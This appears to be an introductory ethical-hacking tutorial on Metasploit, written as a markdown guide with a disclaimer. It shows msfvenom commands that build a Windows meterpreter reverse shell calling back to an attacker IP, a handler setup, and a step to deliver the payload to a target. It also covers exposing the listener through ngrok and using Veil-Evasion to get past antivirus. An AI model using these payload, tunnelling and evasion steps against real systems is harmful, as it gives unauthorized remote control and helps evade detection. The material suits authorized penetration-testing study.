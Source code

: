 # System Hacking Techniques

## Disclaimer
*This documentation is intended solely for educational purposes. The techniques described here should only be used in authorized penetration testing scenarios or with explicit permission. Unauthorized use of these methods for malicious purposes is illegal and unethical.*

## Introduction to System Hacking
System hacking involves exploiting vulnerabilities in systems to gain unauthorized access or control. Ethical hackers use these techniques to identify and fix security weaknesses.

## Steps to Follow

### 1. Reconnaissance
- **Objective:** Gather information about the target system.
- **Techniques:** Passive and active information gathering.

### 2. Scanning
- **Objective:** Identify open ports and services.
- **Tools:** Nmap, Netcat.

### 3. Gaining Access
- **Objective:** Exploit vulnerabilities to gain access.
- **Techniques:** Using Metasploit, password attacks.

### 4. Maintaining Access
- **Objective:** Ensure continued access.
- **Techniques:** Backdoors, rootkits.

### 5. Covering Tracks
- **Objective:** Avoid detection.
- **Techniques:** Log tampering, hiding files.

## Metasploit Framework

### What is [Metasploit](https://www.metasploit.com/)?
Metasploit is a powerful tool for developing and executing exploit code against a remote target machine. It provides information about security vulnerabilities and aids in penetration testing.

### Why Use Metasploit?
- **Comprehensive:** Contains a wide range of exploits and payloads.
- **Ease of Use:** User-friendly interface and commands.
- **Community Support:** Active community and regular updates.

### Basic Usage

#### Installing Metasploit
- **On Kali Linux:**
  ```bash
  sudo apt update
  sudo apt install metasploit-framework
  ```

#### Starting Metasploit
```bash
msfconsole
```

#### Basic Commands
- **Search for Exploits:**
  ```bash
  search <exploit_name>
  ```
- **Use an Exploit:**
  ```bash
  use <exploit_path>
  ```
- **Set Options:**
  ```bash
  set <option_name> <value>
  ```
- **Run Exploit:**
  ```bash
  exploit
  ```

### Dummy Live Example

#### Scenario: Exploiting a Vulnerable Windows Machine

1. **Create Payload with msfvenom:**
   - msfvenom is a tool used to generate payloads that can be used in various exploits.
  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe > shell.exe
   ```

2. **Start Metasploit Console:**
   ```bash
   msfconsole
   ```

3. **Set Up Exploit Handler:**
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <attacker_ip>
   set LPORT 4444
   exploit
   ```

4. **Deliver Payload to Target:**
   - Send the `shell.exe` file to the target machine and execute it.

5. **Meterpreter Session:**
   - If successful, you will get a meterpreter session.
   - Use `help` to see available commands.

### Advanced Topics

#### [NGROK](https://ngrok.com/)
Ngrok creates a secure tunnel to a localhost server, making it accessible remotely.

**Using NGROK:**
```bash
ngrok tcp 4444
# Generate payload with Ngrok IP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ngrok_ip> LPORT=<ngrok_port> -f exe > remote.exe
```

#### Obfuscation Techniques
Obfuscation makes payloads and exploits harder to detect by security systems.

**Common Techniques:**
- **Encoding**
- **Encryption**
- **String Concatenation**
- **Toggle Cases**

#### Tools for Obfuscation
- **[Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion):** A tool designed to generate metasploit payloads that bypass common anti-virus solutions.
- **[Shellter](https://www.shellterproject.com/):** A dynamic shellcode injection tool.

**Example Usage:**
```bash
veil
use python/meterpreter/rev_https
set LHOST <attacker_ip>
set LPORT 443
generate
```

## References
- [Exploitation Tutorial - HackerSploit](https://www.youtube.com/playlist?list=PLBf0hzazHTGOWEu3p7QbtqTCiy1nsdZFj)
- [Ngrok](https://dashboard.ngrok.com/get-started/setup/linux)
- [Villain GitHub Repository](https://github.com/t3l3machus/Villain)

By following these ethical hacking practices, you can responsibly learn and apply system hacking techniques for educational and authorized purposes.